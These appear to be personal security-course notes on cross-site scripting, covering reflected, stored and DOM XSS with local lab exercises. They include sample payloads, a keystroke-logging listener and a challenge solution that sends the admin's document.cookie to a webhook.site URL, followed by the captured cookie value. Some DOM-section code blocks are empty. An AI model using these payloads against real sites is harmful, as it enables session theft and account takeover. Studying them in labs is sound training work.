


# Web App - XSS

> - [Cross-Site Scripting (XSS) Cheat Sheet - 2024 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

➡️ **Cross-site scripting** (**XSS**) allows an attacker to compromise the interactions of the users with a vulnerable application. It lets the attacker execute (malicious) **JavaScript** in a victim's browser, compromising the user's interaction with the application.

- **Reflected XSS**
  - when an application unsafely includes user-supplied data (injected script) from an HTTP request in its immediate response
  - payload (malicious script) come from the current HTTP request
- **Stored XSS**
  - when an application receives and stores data from an untrusted source and unsafely includes it within its later HTTP responses
  - payload (malicious script) come from the application's database
- **DOM-based XSS**
  - when client-side Javascript (code) unsafely processes data from an untrusted source and writes it back to the DOM
  - everything happens locally in the browser

```bash
alert(1)
print()
prompt("Hello")

# log pressed key
function logKey(event){console.log(event.key)}
document.addEventListener('keydown', logKey)
```

---

## XSS - DOM

- The request happens entirelly locally
  - no request seen in the browser **Dev Tools / Network** tab
- Try some basic payloads

```bash
<script>prompt(1)</script>
# did not work, it is not called/triggered


# works - injects an event-driven JavaScript payload that executes prompt(1) when the image fails to load due to an invalid source


# redirect the user to another webpage
```

- The lab can be used for testing other payloads

---

## Stored XSS

- To check if XSS is stored for more users, use
  - incognito sessions
  - or [Firefox Containers](https://addons.mozilla.org/en-US/firefox/addon/multi-account-containers/)
  - to create 2 different environments with separate/difference accounts
- First try some HTML injection, once found out if it works, XSS follows
  - every user that visits the page is impacted by the **stored XSS payload**

```bash
<h1>Test</h1>
# works - check on the second environment the Stored XSS

<script>prompt(1)</script>
# works - refresh second environment and you'll see the prompt

<script>alert(document.cookie)</script>
# Cookie can be stolen
```



---

## XSS - Challenge

- Open `http://localhost/labs/x0x03.php` first Firefox container
- Open `http://localhost/labs/x0x03_admin.php` in the second container
- Goal - exfiltrate the admin cookie
- Use `netcat` or [https://webhook.site](https://webhook.site) (not for private traffic)
  - use **Collaborator** (with BurpSuite Pro)

```bash
<script>var i = new Image; i.src="https://webhook.site/4a14cea0-1e8c-4707-a596-cf1939bd4a76/?"+document.cookie</script>
```

```bash
admin_cookie
5ac5355b84894ede056ab81b324c4675
```



---

